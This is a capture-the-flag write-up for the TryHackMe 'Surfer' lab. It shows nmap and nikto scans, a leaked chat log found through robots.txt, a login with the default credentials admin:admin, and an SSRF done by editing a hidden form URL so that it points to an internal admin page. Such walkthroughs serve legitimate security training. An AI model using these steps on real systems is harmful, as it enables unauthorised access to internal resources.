 # Surfer

### Surfer

Room link: https://tryhackme.com/room/surfer

### Scanning

Just to ensure that I wasn't missing anything. I ran an aggressive NMAP scan.

```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [REMOTE IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-27 19:16 EDT
Nmap scan report for [REMOTE IP]
Host is up (0.073s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: 24X7 System+
|_Requested resource was /login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

I ran nikto as well to see what possible web app vulnerabilities there were.

```
ajread@aj-ubuntu:~/TryHackMe$ nikto -h [REMOTE IP]
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          [REMOTE IP]
+ Target Hostname:    [REMOTE IP]
+ Target Port:        80
+ Start Time:         2022-10-27 19:16:35 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/7.2.34
+ The anti-clickjacking X-Frame-Options header is not present.
+ Root page / redirects to: /login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x28 0x5d9416f2ee840 
+ File/dir '/backup/chat.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2022-10-27 19:28:10 (GMT-4) (695 seconds)
---------------------------------------------------------------------------
```

As seen, there was a robots.txt entry. I investigated the entry and found and interesting chat log.

```
ajread@aj-ubuntu:~/TryHackMe$ curl http://[REMOTE IP]/backup/chat.txt

Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

Therefore, I was able to log into the application with credentials `admin:admin`. On the right hand side within Recent Activity, the application stated that the flag was located within `/internal/admin.php`.The chat above talked about the export2pdf tool that was new as well. I needed to conduct SSRF to access the internal page. I decided to check out how the export2pdf interacts with the webpage. It appeared to submit a POST request to an internal info page.

```
            <!-- Reports -->
            <div class="col-12">
              <div class="card">

                <div class="card-body">
                  <h5 class="card-title">Export Reports <span>/Today</span></h5>
                  <form class="row g-3 needs-validation" novalidate action="export2pdf.php" method="POST">
                    <input type="hidden" id="url" name="url" value="http://127.0.0.1/server-info.php">
                    <div class="col-12">
                        <button class="btn btn-primary w-100" type="submit">Export to PDF</button>
                    </div>
                  </form>
                </div>

              </div>
            </div><!-- End Reports -->
```

I changed the value of the webpage to be the `/internal/admin.php` page and resent the request by clicking the Export to PDF button.

```
            <!-- Reports -->
            <div class="col-12">
              <div class="card">

                <div class="card-body">
                  <h5 class="card-title">Export Reports <span>/Today</span></h5>
                  <form class="row g-3 needs-validation" novalidate action="export2pdf.php" method="POST">
                    <input type="hidden" id="url" name="url" value="http://127.0.0.1/internal/admin.php">
                    <div class="col-12">
                        <button class="btn btn-primary w-100" type="submit">Export to PDF</button>
                    </div>
                  </form>
                </div>

              </div>
            </div><!-- End Reports -->
```

Finally, I found the flag!
